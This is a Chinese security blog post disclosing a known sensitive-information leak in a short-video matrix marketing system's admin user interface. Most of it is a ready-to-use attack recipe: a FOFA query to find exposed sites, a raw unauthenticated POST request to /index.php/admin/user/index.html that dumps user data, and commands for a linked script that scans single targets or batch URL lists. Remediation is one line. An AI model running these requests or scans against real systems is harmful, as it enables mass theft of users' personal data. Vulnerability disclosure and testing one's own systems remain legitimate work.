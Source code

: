 #  【Nday】短视频矩阵营销系统 user 敏感信息泄露漏洞【附poc】   
原创 阿诺  苏诺木安全团队   2024-09-02 19:46  
  
**免责声明：本文仅用于技术学习和讨论。请勿使用本文所提供的内容及相关技术从事非法活动，若利用本文提供的内容或工具造成任何直接或间接的后果及损失，均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号无关。**  
  
**fofa**  
```
title="短视频矩阵营销系统"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5h6SVtXyicgx52vS4C4esuFKIyG5TAPsvUWzgNpeA4HvuHdm9An6YRPibG4Yv2LPibjy7B7Op8QZ428WO1vAJQISQ/640?wx_fmt=png&from=appmsg "")  
  
**一、漏洞简述**  
  
  
短视频矩阵系统是一种整合多平台短视频内容发布和管理的工具，旨在通过统一的后台实现对视频素材的高效管理、编辑和分发。该系统能够支持多个社交媒体平台的账号同步，优化视频营销策略，提高品牌曝光率，并通过数据分析帮助用户深入了解受众偏好，从而提升内容创作的针对性和效果  
。其接口  
user  
存在敏感信息泄露漏洞  
，攻击者可通过该漏洞获取系统敏感信息。  
  
  
  
**二、漏洞检测poc**  
```
POST /index.php/admin/user/index.html?page=1 HTTP/2
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Content-Length: 0


```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5h6SVtXyicgx52vS4C4esuFKIyG5TAPsvpRvk1YhQcvuibo786WfibItXPkjpYtUj2adBFQIGqzPSJKwtehwNLicZg/640?wx_fmt=png&from=appmsg "")  
  
**三、漏洞检测脚本**  
  
**安全测试人员可通过该脚本进行探测自身服务是否存在此漏洞：**  
  
https://github.com/ATonysan/poc-exp/blob/main/Shortvideomatrixmarketing_user_InfoLeak.py  
  
批量检测:  
  
python   
Shortvideomatrixmarketing_user_InfoLeak.py  
  
  
  
 -f url.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5h6SVtXyicgxvhhXWuALPCmAQvibP3hD29HbhGfQ5qfECU8PzpwB6uPVepEZlJ0iaTEmyicDOBfOxlgAwbeQ8CYEng/640?wx_fmt=png&from=appmsg "")  
  
单个url检测漏洞:  
  
python   
Shortvideomatrixmarketing_user_InfoLeak.py  
  
  
 -u url  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5h6SVtXyicgz8ayEYZAfXcicicckkrTKakvW8mPVZiachJic8M7koEKcibXSOibCGGgPibpIvODgrMvXT1bicibiacsEgLbUw/640?wx_fmt=png&from=appmsg "")  
  
**四、修复**  
  
官方已更新补丁，请升级至最新版本。  
  
  
